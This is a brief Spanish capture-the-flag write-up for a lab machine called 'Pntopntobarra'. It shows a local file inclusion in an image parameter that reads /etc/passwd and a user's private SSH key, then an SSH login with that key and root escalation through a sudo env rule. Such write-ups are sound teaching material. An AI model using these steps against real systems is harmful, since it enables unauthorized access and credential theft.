

# Pntopntobarra

22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))

En la web, se encuentra este trozo de código para el botón:
*button onclick="location.href='ejemplos.php?images=./ejemplo1.png'">Ejemplos de computadoras infectadas</button*
Es un potencial vector de LFI:
Escribimos en la URL
`http://172.17.0.2/ejemplos.php?images=../../../../../../../etc/passwd`
Vemos el contenido por lo que sí es un LFI ✔
Vemos un usuario
***home/nico:/bin/bash***
quizás este usuario tenga acceso SSH mediante clave y he ido a ver si podía leerla. Efectivamente aquí la tenemos.
Buscamos en:
`http://172.17.0.2/ejemplos.php?images=/home/nico/.ssh/id_rsa`

Ahora, creamos un archivo que contenga el ID cifrado del usuario SSH *id_rsa_nico*
Nos conectamos con ssh pasandole la private key de nico
`ssh nico@172.17.0.2 -i id_rsa_nico`
**nico**

## Escalada

*(ALL) NOPASSWD: /bin/env* -> GTFOBINS
`sudo -u root env /bin/bash`
**root**
